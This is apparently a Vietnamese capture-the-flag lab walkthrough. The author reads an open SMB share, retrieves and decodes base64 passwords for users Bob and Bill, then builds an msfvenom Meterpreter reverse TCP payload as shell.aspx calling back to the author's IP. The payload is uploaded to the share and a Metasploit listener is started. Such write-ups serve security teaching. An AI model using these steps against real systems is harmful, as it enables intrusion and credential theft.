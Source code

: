 ```python
```
Chúng ta có 1 folder tên `nt4wrksv`. Thử truy cập vào thư mục này và tôi có 1 file password.
```python
┌──(neo㉿kali)-[~]
└─$ smbclient \\\\10.10.84.34\\nt4wrksv  
Password for [WORKGROUP\neo]:

Try "help" to get a list of possible commands.
smb: \> 
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 4944824 blocks available
smb: \> get passwords.txt 
getting file \passwords.txt of size 98 as passwords.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
Lấy nó về và xem bên trong có gì nào.
```python
┌──(neo㉿kali)-[~]
└─$ cat passwords.txt  
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
Tôi hay sử dụng [web này](https://kt.gy/) để decrypt những base phổ biến như 16, 32, 64, v.v.. Với dòng đầu tiên tôi có user-pass của __Bob__ và dòng thứ 2 là user-pass của __Bill__. 

Do đây là window server nên tôi sẽ thử tạo Meterpreter payload và đẩy nó vào share file:

`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.18.3.74 lport=2402 -f aspx -o shell.aspx`

Ở đây tôi sử dụng msfvenom với:

`-p`: lựa chọn payload muốn đẩy

`lhost` và `lport` là ip litsener của máy tôi 

`-f`: chọn định dạng file sẽ xuất ra

`-o`: tạo file với tên shell.aspx

Chờ 1 lúc để file tạo thành công
```python
smb: \> put /home/neo/shell.aspx shell.aspx
putting file /home/neo/shell.aspx as \shell.aspx (296.6 kb/s) (average 296.6 kb/s)
smb: \> dir
  .                                   D        0  Tue Aug  9 05:36:44 2022
  ..                                  D        0  Tue Aug  9 05:36:44 2022
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  shell.aspx                          A  1013006  Tue Aug  9 05:36:47 2022

                7735807 blocks of size 4096. 4912865 blocks available
```
Vậy là up shell thành công. Tạo listener với Metasploit
```python
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp 
payload => windows/x64/meterpreter_reverse_tcp
```
Thiết lập LHOSTS và LPORT giống với trong payload vừa tạo
```python
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.3.74:2402 
```